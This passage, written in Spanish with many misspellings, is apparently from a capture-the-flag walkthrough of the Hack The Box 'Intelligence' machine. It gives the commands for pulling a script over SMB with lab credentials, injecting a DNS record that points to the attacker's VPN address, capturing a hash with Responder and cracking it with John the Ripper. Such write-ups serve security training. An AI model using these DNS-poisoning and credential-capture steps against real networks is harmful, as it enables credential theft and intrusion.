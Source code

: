 
```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download IT/downdetector.ps1
```

{:.note}
Es una tarea cron.

La idea es iyentar un dnsRecord con la herramienta [dnstool.py] beemos tener user y pass con - r 

inyectamos dnsRecord y debe empesar poe web asi lo dice en el script -add para anadirlo y -d 

que es recordata que para que apunte ala ip del atacate osea la vpn para cuando el servidor 

tarmita la peticion ala web se redirija a la maquina atacante de la sigiente forma.

[dnstool.py]: https://github.com/dirkjanm/krbrelayx

```bash
python3 dnstool.py -u 'dc.inteligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webaxel -a add -t A -d 10.10.14.17 10.10.10.248
```

![list](/assets/img/intelligence/Kali-2022-09-10-02-33-00.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Debemos poner ala escucha el responde asi responder -I tun0 y eso hara lo demas.

Lo anterio nos da un hash el cual procedermos a crackear con `John The Ripper`.

![list](/assets/img/intelligence/Kali-2022-09-10-02-39-05.png){:.lead width="800" height="100" loading="lazy"}


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[bloodhound-python]: https://github.com/fox-it/BloodHound.py
[gmsadumper]: https://github.com/micahvandeusen/gMSADumper